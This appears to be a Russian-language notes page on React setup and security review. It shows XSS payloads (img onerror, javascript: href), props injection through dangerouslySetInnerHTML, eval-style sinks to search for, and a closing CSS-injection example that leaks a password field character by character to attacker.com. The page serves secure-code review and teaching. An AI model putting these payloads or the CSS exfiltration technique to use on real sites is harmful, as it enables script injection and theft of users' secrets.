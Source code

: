 # React JS

## Создать проект

```
$ npx create-react-app test-project-name
...
Success! Created test-app at /Users/user/JsProjects/test-app
Inside that directory, you can run several commands:

    yarn start
      Starts the development server.
  
    yarn build
      Bundles the app into static files for production.
  
    yarn test
      Starts the test runner.
  
    yarn eject
      Removes this tool and copies build dependencies, configuration files
      and scripts into the app directory. If you do this, you can’t go back!
  
We suggest that you begin by typing:

  cd test-project-name
  yarn start
  
$ cd test-project-name
$ yarn start (or npm start)
```

## Структура проекта

```
node_modules — зависимости
public/index.html — главный html документ (по сути ввсе приложение отрисовывается в компонент с id=root)
package.json — описание зависимостей
index.js — по сути главный исполняемый файл, который отрисовывает компонент App и кладет в root
App.js — внутри видим html-подобный код — это JSX.

Так же в index.js видим в узле scripts команды объяленные: запуск приложения (можно и через yarn) 
npm start
```

## Разработка

У React компонентный подход: то есть создаем отдельные компоненты, а потом их комбинируем

## Интересные пакеты

React Flow — построение графов — [https://reactflow.dev/](https://reactflow.dev)

## Security

### XSS

В ReactJS встроена защита, от разного рода XSS инъекций (auto escaping):

```jsx
import './App.css';

function App() {
  let XSS_PAYLOAD = "<img src=x onerror='alert(123)'/>";

  return (
    <div className="App">
      <header className="App-header">
        <div>STRING {XSS_PAYLOAD} ESCAPED</div>
      </header>
    </div>
  );
}

export default App;
```

И выглядит это так:

<img src="../../../../.gitbook/assets/image.png" alt="" data-size="original">

Однако, для разработчиков оставили способ отрисовать html+js в динамике, если это действительно необходимо:

```javascript
function createMarkup() {
  return {__html: 'First &middot; Second'};
}

function MyComponent() {
  return <div dangerouslySetInnerHTML={createMarkup()} />;
}
```

### Props Injections

В React есть возможность передать в компонент массив с переопределенными атрибутами. Если атакующий может контролировать этот массив, то он сможет определить ключ атрибута `dangerouslySetInnerHTML` и добавить туда свою нагрузку:

```jsx
import './App.css';

function App() {
  const STRONG_PAYLOAD = "<strong>TEST</strong>";
  const XSS_PAYLOAD = "<img src=x onerror='alert(123)'/>";

  const PROPS_INJ_PAYLOAD = {"dangerouslySetInnerHTML": {"__html": STRONG_PAYLOAD}};
  
  return (
    <div className="App">
      <header className="App-header">
        <div {...PROPS_INJ_PAYLOAD} />
      </header>
    </div>
  );
}

export default App;
```

Один только нюанс: это сработает только в том случае, если в `PROPS_INJ_PAYLOAD` не содержится других ключей, иначе React/Webpack выведут ошибку:&#x20;

![](<../../../../.gitbook/assets/image (1).png>)

### Injectable Attributes

```jsx
import './App.css';

function App() {
    const ATTR_PAYLOAD = "javascript:alert(1)";
    
    return (
        <div className="App">
          <header className="App-header">
              <a href={ATTR_PAYLOAD}>Link</a>
          </header>
        </div>
    );
}

export default App;
```

### CSS in JS

У React есть возможность определять стили для компонентов прямо в JS коде, используя JS синтаксис:

```jsx
```

### Eval-based Injections

If you can control a string that is dynamically evaluated, you have hit the jackpot and may proceed to inject arbitrary code of your choosing. This should be a rare occurrence.

```jsx
function antiPattern() {
  eval(this.state.attacker_supplied);
}
// Or even crazier
fn = new Function("..." + attacker_supplied + "...");
fn();

// Example
const addition = new Function(‘a’, ‘b’, ‘return a+b’);
addition(1, 1)

// Так же нельзя допускать, чтобы строки попадали 
// в setInterval() или setTimeout() как аргумент
setTimeout(“console.log(1+1)”, 1000);

```

Соответственно, ищем использование:

```jsx
eval()
new Function()
setTimeout()
setInterval()
```

### Serialization

```jsx
// Это всегда плохо (почти)
Ищем JSON.stringify
Ищем YAML, XML, Markdown,...
```

### Incorrect work with location

Ищем по коду работу с `window.location`. Здесь могут быть и не так обработанные параметры, и Open Redirect и CSRF и тп.

### Чем вообще могут помочь инъекции в стили

#### Password stealing

```jsx
<style>
    #form2 input[value^='a'] { background-image:url(https://attacker.com/?a); }
    #form2 input[value^='b'] { background-image:url(https://attacker.com/?b); }
    #form2 input[value^='c'] { background-image:url(https://attacker.com/?c); }
     [...]
 </style>
 <form action="http://example.com" id="form2">
   <input type="text" id="secret" name="secret" value="abc">
 </form>
```
